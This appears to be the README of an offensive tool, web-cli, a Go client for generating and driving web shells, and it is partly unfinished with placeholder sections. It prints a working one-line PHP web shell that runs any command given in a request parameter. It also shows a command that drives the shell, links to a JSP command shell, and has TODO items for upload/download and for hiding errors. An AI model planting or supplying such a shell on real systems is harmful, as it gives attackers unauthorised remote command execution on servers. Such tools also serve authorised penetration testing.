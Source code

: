 # web-cli

Command line interface for web shells.

## TODO - wsgen

[] test whitelist ip sources
[] test long/short params
[] test long/short headers
[] test encoding options
[] test download / upload logic
[] change asp variables (base64Var, ADODB.Stream, bin.base64Var)
[] mark which variables in map are used in which language
[] shells should not display errors

## TODO - wsh

[] on download, background the download request to goroutine
[] test download / upload logic
[] fix flags (trimp, trims)
[] combine wsh and wsgen

https://github.com/SecurityRiskAdvisors/cmd.jsp/blob/master/cmd_readable.jsp

## Features

- feature

## Usage

```
flag usage
```

## Example use cases

### PHP Shell Upload

##### PHP Shell

```php
<?php if(isset($_REQUEST['cmd'])){ system($_REQUEST['cmd']); die; }?>
```

##### Command

```
go run main.go -X GET -url http://127.0.0.1:8080/shell.php -p cmd
```

### Compile jsp to war

jar -cvf filename.war index.jsp

### Catch asp error:

```asp
On Error Resume Next
... do something...
If Err.Number <> 0 Then
... handle error
end if
```
